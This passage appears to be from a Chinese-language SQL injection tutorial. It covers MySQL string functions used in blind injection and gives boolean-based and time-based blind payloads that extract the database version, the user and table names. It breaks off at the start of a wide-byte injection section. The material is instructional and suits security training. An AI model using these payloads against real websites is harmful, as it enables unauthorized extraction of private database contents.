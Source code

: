 substr（）substr(a,b,c)从b 位置开始，截取字符串a 的c 长度。

mid（）用法与substr（）类似

length（）返回str字符串的长度

left（database(),1） 取database字符串的左边第一个

### 8.1.3. 实操

**爆出数据库版本：**

```sql
and mid(version(),1,1)=53
```
**爆出数据库用户：**
```sql
and ascii(mid(user(),1,1))>96
```
**爆出表名：**
```sql
and ascii(mid((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))>96
```
## 8.2. **时间盲注**

### 8.2.1. 特点

1. 页面不存在不同回显，但SQL语句被执行
2. 逐个爆破猜解+时间延迟，效率最低
3. 利用：if (query=True) delay(1000);else pass;的程序逻辑，通过观察是否发生了时间延迟来推测SQL语句的执行情况是否为True
```sql
payload：If(ascii(substr(database(),1,1))>115,sleep(5),0)%23 //if 判断语句， 条件为假，执行 sleep
```
### 8.2.2. 常用函数

if(a,b,c) a为条件，a为true，返回b，否则返回c，如if(1>2,1,0),返回0

sleep（）执行挂起一段时间

利用方式：

```sql
and if(mid(version(),1,1)=1,sleep(10),1)
```
也可以和布尔盲注联合起来使用
# 9. SQL注入-宽字节注入

## 9.1. 字符、字符集与字符序

1. 字符（character）是组成字符集（character set）的基本单位。
2. 对字符赋予一个数值（encoding）来确定这个字符在该字符集中的位置。
3. 字符序（collation）指同一字符集内字符间的比较规则。
## 9.2. UTF-8
